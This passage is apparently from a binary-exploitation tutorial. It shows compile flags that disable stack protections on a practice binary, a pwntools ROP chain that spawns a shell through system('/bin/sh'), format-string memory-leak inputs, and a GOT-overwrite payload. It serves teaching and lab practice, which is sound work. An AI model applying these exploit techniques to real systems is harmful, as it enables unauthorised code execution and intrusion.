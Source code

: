 ***

#### 🧠 Disable Protections for Practice

```bash
gcc vuln.c -o vuln -fno-stack-protector -z execstack -no-pie
```

***

### VIII. ⚙️ Return-Oriented Programming (ROP)

#### 🧩 Basic Idea

Use existing instructions ending in `ret` to perform logic when the stack is non-executable.

#### 🧠 Finding Gadgets

```bash
ROPgadget --binary vuln | grep "pop rdi"
```

#### ⚙️ Example: Call `system("/bin/sh")`

```python
from pwn import *
elf = context.binary = ELF('./vuln')
rop = ROP(elf)
rop.call('system', [next(elf.search(b"/bin/sh"))])
payload = b"A"*offset + rop.chain()
p = process(elf.path)
p.sendline(payload)
p.interactive()
```

***

### IX. 🧬 Format String Exploits

#### 🧠 Identify

```c
printf(user_input);
```

#### 💣 Leak Memory

```bash
./vuln <<< "%p %p %p %p"
```

#### ⚙️ Overwrite GOT Entry

Use `%n` specifier to write arbitrary data to memory.\
Pwntools makes this easy:

```python
payload = fmtstr_payload(offset, {elf.got['printf']: elf.symbols['system']})
```
